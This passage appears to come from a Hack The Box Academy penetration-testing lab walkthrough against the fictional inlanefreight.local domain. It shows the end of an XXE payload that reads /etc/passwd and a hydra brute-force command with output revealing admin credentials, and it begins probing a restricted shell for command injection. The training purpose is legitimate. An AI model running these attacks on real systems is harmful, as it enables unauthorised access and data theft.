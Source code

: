 		undefined
	&lt;/subtotal&gt;
	&lt;userid&gt;
		&amp;xxetest;
	&lt;/userid&gt;
&lt;/root&gt;
</code></pre>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/163/xxe_passwd.png"/></p>
<p>Let's jot down another high-risk finding, <code>XML External Entity (XXE) Injection</code> (we've got quite the list so far!), and move on to the last vhost/subdomain.</p>
<hr/>
<h2>monitoring.inlanefreight.local</h2>
<p>We discovered the <code>monitoring</code> vhost earlier, so we won't repeat the process. We used ffuf, but this enumeration can also be performed with other tools. Give it a try with <code>GoBuster</code> to become comfortable with more tools. Browsing to <code>http://monitoring.inlanefreight.local</code> results in a redirect to <code>/login.php</code>. We can try some authentication bypass payloads and common weak credential pairs but don't get anywhere, just receiving the <code>Invalid Credentials!</code> error every time. Since this is a login form, it is worth exploring further so we can fuzz it a bit with Burp Intruder to see if we can provoke an error message indicative of a SQL injection vulnerability, but we are not successful.</p>
<p>An analysis of the POST request and response in Burp Suite does not yield anything interesting. At this point, we've exhausted nearly all possible web attacks and turn back to the module content, remembering the <a href="https://academy.hackthebox.com/module/57/section/503">Login Brute Forcing</a> module that focuses on the tool <code>hydra</code>. This tool can be used to brute-force HTTP login forms, so let's give it a go. We'll use the same <a href="https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top100.txt">wordlist</a> from the <code>SecLists</code> GitHub repo as earlier.</p>
<p>We'll set up <code>hydra</code> to perform the brute-forcing attack, specifying the <code>Invalid Credentials!</code> error message to filter out invalid login attempts. We get a hit for the credential pair <code>admin:12qwaszx</code>, a common "keyboard walk" password that is easy to remember but can be very easily brute-forced/cracked.</p>
<pre><code class="language-shell-session">[!bash!]$ hydra -l admin -P ./passwords.txt monitoring.inlanefreight.local http-post-form "/login.php:username=admin&amp;password=^PASS^:Invalid Credentials!"

Hydra v9.1 (c) 2020 by van Hauser/THC &amp; David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-06-21 11:32:17
[DATA] max 16 tasks per 1 server, overall 16 tasks, 99 login tries (l:1/p:99), ~7 tries per task
[DATA] attacking http-post-form://monitoring.inlanefreight.local:80/login.php:username=admin&amp;password=^PASS^:Invalid Credentials!
[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-06-21 11:32:22
</code></pre>
<p>Once logged in, we are presented with some sort of monitoring console. If we type <code>help</code>, we are presented with a list of commands. This seems like a restricted shell environment to perform limited tasks and something very dangerous that should not be exposed externally. The last class of vulnerabilities taught in the <code>Penetration Tester Job Role Path</code> that we have not yet covered is <a href="https://academy.hackthebox.com/module/details/109">Command Injections</a>.</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/163/monitoring.png"/></p>
<p>We walk through each of the commands. Trying <code>cat /etc/passwd</code> does not work, so it does appear that we are indeed in a restricted environment. <code>whoami</code> and <code>date</code> provide us with some basic information. We don't want to <code>reboot</code> the target and cause a service disruption. We are unable to <code>cd</code> to other directories. Typing <code>ls</code> shows us a few files that are likely stored in the directory that we are currently restricted to.</p>
<p><img alt="text" src="https://academy.hackthebox.com/storage/modules/163/monitoring_files.png"/></p>